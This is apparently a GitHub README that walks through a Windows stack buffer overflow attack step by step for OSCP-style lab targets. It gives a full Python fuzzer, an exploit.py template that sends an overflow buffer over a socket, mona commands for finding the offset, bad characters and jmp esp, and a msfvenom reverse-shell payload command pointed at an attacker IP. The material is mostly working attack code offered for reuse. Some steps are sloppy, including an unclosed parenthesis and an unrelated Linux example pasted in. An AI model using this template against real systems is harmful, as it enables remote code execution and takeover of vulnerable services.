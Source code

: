 # Buffer-Overflow-Script
The script help you to understand the bascis of Buffer overflow and will save you a lot of time while executing the attack.

I have created different file step by step to make.
Following sequence is as followed

1. Fuzzing (fuzzer.py)
2. Crash Replication & Controlling EIP (Crash Replication.py)
3. Metasploit random pattren 
4. use mona to find out the pattren offset
5. Finding Bad Characters (Badchars.py)
6. Finding a Jump Point
7. Generate Payload
8. Prepend NOPs
|| use everything above and add your prefix + overflow + retn + padding + payload + postfix
 to **exploit.py**

Important 1st set **Mona Configuration** to a specific folder

```
!mona config -set workingfolder c:\mona\%p
```

# **Fuzzing**

Create a file on your Kali box called fuzzer.py with the following contents:

fuzzer.py

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1
```

# **Crash Replication & Controlling EIP**

exploit.py

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Creating a pattern with -l with no. of crash + 400 as saftey

```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

Copy the output and place it into the payload variable of the [exploit.py](http://exploit.py/) script.

To find offset of the EIP (On the Debugger)

findmsp

The findmsp command will find all instances or certain references to a cyclic pattern (a.k.a. “Metasploit pattern”) in memory, registers, etc

```python
!mona findmsp -distance 600
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png)

we are controlling EIP. in the end we need to make jump through it

update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

# **Finding Bad Characters**

just find badchar sending via payload then esp dump thing find the bad chars

jump to them to find the return value

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

IMP —- use direct bad chars just edit it no neeed to type shit.

```python
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

Update your [exploit.py](http://exploit.py/) script and set the payload variable to the string of bad chars the script generates.

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

ESP > follow the dump for more accurate result

# **Finding a Jump Point**

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' will output the payload we want, but it requires manually converting to little endian
```

```python
Method 2 - Struct:
```

```python
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```

```python
It requires importing a module but struct.pack allows us to automatically convert memory to little endian.
```

```python
We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary
```

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```python
!mona jmp esp -m gatekeeper.exe
!mona jmp -r esp -cpb "\x00(badchars)"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit. script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

# **Generate Payload**

Run the following msfvenom command on Kali, using your Kali VPN IP as LHOST and updating the -b option with all the badchars you identified (including \x00):

```python
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

# **Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16

```
